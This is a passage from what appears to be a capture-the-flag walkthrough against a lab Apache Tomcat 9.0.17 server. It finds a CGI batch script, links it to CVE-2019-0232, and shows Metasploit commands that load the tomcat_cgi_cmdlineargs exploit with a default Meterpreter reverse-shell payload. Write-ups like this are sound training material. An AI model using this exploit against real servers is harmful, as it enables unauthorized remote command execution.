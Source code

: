 ```WEB_CONTENTS 
Miscellaneous

    Contact
    Legal
    Sponsorship
    Thanks

Apache Software Foundation

    Who We Are
    Heritage
    Apache Home
    Resources


Copyright ©1999-2021 Apache Software Foundation. All Rights Reserved
```


>>FINDING THE ELFWHACKER FILE WITH "cgi-bin/elfwhacker.bat" COMMAND.
http://GIVEN_IP:8080/cgi-bin/elfwhacker.bat
```WEB_CONTENTS
-------------------------------------------------------
Written by ElfMcEager for The Best Festival Company ~CMNatic
-------------------------------------------------------

Current time: 09/11/2021  6:55:28.02

-------------------------------------------------------
                 Debugging Information
-------------------------------------------------------
Hostname: TBFC-WEB-01
User: tbfc-web-01\elfmcskidy

-------------------------------------------------------
                  ELF WHACK COUNTER
-------------------------------------------------------

 Number of Elves whacked and sent back to work: 23786 

```

>>FOUND THE CVE-2019-0232 IN RAPID-7 WHICH IS THE EXPLOIT FOR THE TOMCAT 9.0.17.

>>SETTING UP THE METASPLOIT TO EXPLOIT IT.

```bash
msf5 > search 2019-0232

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability


msf5 > use exploit/windows/http/tomcat_cgi_cmdlineargs
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > option
[-] Unknown command: option.
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > options

Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):

```